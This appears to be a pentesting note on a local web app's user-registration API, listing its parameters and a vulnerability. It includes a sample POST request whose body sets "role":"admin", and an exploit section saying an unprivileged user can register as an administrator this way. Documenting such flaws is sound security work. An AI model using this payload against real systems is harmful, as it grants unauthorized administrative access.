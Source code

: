 ## Description

GET request returns list of all users on the platform. POST request is used to register for a new user account. 

## Connection Details

HTTP Methods: `POST`, `GET`
Parameters: 
- `email`
- `password`
- `passwordRepeat`
- `role`

### Sample Request

```http
POST /api/Users/ HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:3000/
Content-Type: application/json
Content-Length: 106
Origin: http://127.0.0.1:3000
DNT: 1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"email":"asdfaaa","password":"asdf","passwordRepeat":"asdf",
"role":"admin"}
```

## Parameters 

### `email`
#### Description
Checks are performed to ensure field is unique. However no check is done to ensure email format is valid. 

### `role`
#### Description
Determines account role. 

## Vulnerabilities
### Lack of authentication 

#### Exploit
Specify `"role":"admin"` when registering for account. 

#### Impact
Unpriviledged user can regsiter for admin account. 

## Possible Attack Vectors

### ?


